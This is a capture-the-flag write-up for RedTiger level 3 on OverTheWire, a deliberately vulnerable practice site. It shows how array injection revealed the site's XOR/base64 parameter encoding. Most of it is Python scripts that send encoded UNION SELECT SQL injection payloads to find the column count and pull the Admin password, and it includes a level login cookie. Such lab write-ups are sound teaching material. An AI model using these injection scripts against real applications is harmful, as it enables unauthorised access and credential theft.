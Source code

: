 ================================================================================================================
[redtiger] level3
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="?usr[]=",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|

Source Analysis
================================================================================================================

Target: Get the password of the user Admin.
Hint: Try to get an error. Tablename: level3_users


Show userdetails: 
TheCow
Admin

.. code-block:: html

    Show userdetails: 
    <a href="?usr=MTQ4MTY4MTY1MTMxMTc1MTgz">TheCow</a>
    <a href="?usr=MTI5MTY0MTczMTY5MTc0">Admin</a>

    <form method="post">
        Username: <input type="text" name="user">
        Password: <input type="text" name="password">
        <input type="submit" name="login" value="Login">
    </form>
    

|

Array Injection
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }

    # []
    payload = {
        "usr[]": ""
    }

    r = requests.post(url, cookies=cookies, params=payload, verify=False)

    print r.content


[error page]

.. code-block:: html

    Warning: preg_match() expects parameter 2 to be string, array given in /var/www/hackit/urlcrypt.inc on line 21

|

.. code-block:: php

    <?php
            
        function encrypt($str)
        {
            $cryptedstr = "";
            for ($i =0; $i < strlen($str); $i++)
            {
                $temp = ord(substr($str,$i,1)) ^ 192;
                
                while(strlen($temp)<3)
                {
                    $temp = "0".$temp;
                }
                $cryptedstr .= $temp. "";
            }
            return base64_encode($cryptedstr);
        }
      
        function decrypt ($str)
        {
            if(preg_match('%^[a-zA-Z0-9/+]*={0,2}$%',$str))
            {
                $str = base64_decode($str);
                if ($str != "" && $str != null && $str != false)
                {
                    $decStr = "";
                    
                    for ($i=0; $i < strlen($str); $i+=3)
                    {
                        $array[$i/3] = substr($str,$i,3);
                    }

                    foreach($array as $s)
                    {
                        $a = $s^192;
                        $decStr .= chr($a);
                    }
                    
                    return $decStr;
                }
                return false;
            }
            return false;
        }
    ?>

|

.. code-block:: python

    import base64

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)


|

Column Length
================================================================================================================

.. code-block:: python

    import requests
    import base64

    requests.packages.urllib3.disable_warnings()

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }

    n = 0
    ret = ''
    for l in range(20):
        params = {
            "usr": encrypt("' union select %s from level3_users-- " % str(n))
        }
        print "' union select %s from level3_users-- " % str(n)
        n = str(n) + "," + str(l+1)
        r = requests.post(url, cookies=cookies, params=params, verify=False)
        print r.content



|

Data Extract
================================================================================================================



.. code-block:: python

    import requests
    import base64

    requests.packages.urllib3.disable_warnings()

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }


    params = {
        "usr": encrypt("' union select 1,2,3,username,password,6,7 from level3_users where username='Admin' -- ")
    }

    r = requests.post(url, cookies=cookies, params=params, verify=False)
    print r.content